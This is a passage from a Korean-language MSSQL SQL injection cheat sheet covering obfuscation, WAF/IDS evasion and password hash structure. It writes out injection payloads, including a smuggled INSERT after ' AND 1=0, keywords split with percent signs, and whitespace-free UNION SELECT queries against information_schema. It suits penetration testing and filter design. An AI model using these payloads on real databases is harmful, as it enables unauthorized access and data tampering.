 예 :<br>
`' AND 1=0 INSERT INTO ([column1], [column2]) VALUES ('value1', 'value2');`<br><br><br>



## (16) 퍼징(Fuzzing)과 난독화(Obfuscation)

**① 허용된 중간 문자열**<br><br>

다음 문자는 공백으로 사용할 수 있음.<br><br>
![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/e13ddea1-c1e7-467d-8af2-b202f959bb09)
<br><br>
예 :<br>
`S%E%L%E%C%T%01column%02FROM%03table;`<br>
`A%%ND 1=%%%%%%%%1;`<br><br>

노트 :<br>
키워드 간 백분율 기호는 ASP(X) 웹 응용 프로그램에서만 가능함.<br><br>

공백을 사용하지 않으려면 다음 문자를 사용할 수도 있음.<br><br>
![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/edbdba4d-6028-4735-9ff4-ce381ef558a4)
<br><br>
예 :<br>
`UNION(SELECT(column)FROM(table));`<br>
`SELECT"table_name"FROM[information_schema].[tables];`<br><br>

**② AND/OR 뒤에 허용되는 중간 문자열**<br><br>
![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/fbbcb836-a290-43a5-b22d-fa2bebe58b3d)
<br><br>
예 :<br>
`SELECT 1FROM[table]WHERE\1=\1AND\1=\1;`<br><br>

노트 :<br>
백슬러시는 MSSQL 2000 에서는 작동하지 않음.<br><br>

**③ 인코딩**<br><br>

주입을 인코딩하면 WAF/IDS 우회에 유용할 때도 있음.<br><br>
![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/72219964-16c4-4aaf-ab4b-0d097aecd1fb)
<br><br><br>


## (17) 패스워드 해싱(Password Hashing)

암호는 0x0100 으로 시작하며 0x 다음에 오는 바이트는 첫 번째는 상수임.<br>
다음 8 바이트는 해시 Salt 이고 나머지 80 바이트는 2 해시임.<br>
여기서 첫 번째 40 바이트는 암호의 대/소문자를 구분하는 해시이고 두 번째 40 바이트는 대문자 버전임.<br><br>
![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/287aad76-e861-406a-be3d-5aa80bd05adc)
<br><br><br>



### (18) 패스워드 크랙(Password Cracking)


[KOROMOONlink]: https://koromoon.blogspot.com/2018/10/mssql-injection-cheet-sheet.html "Go KOROMOON"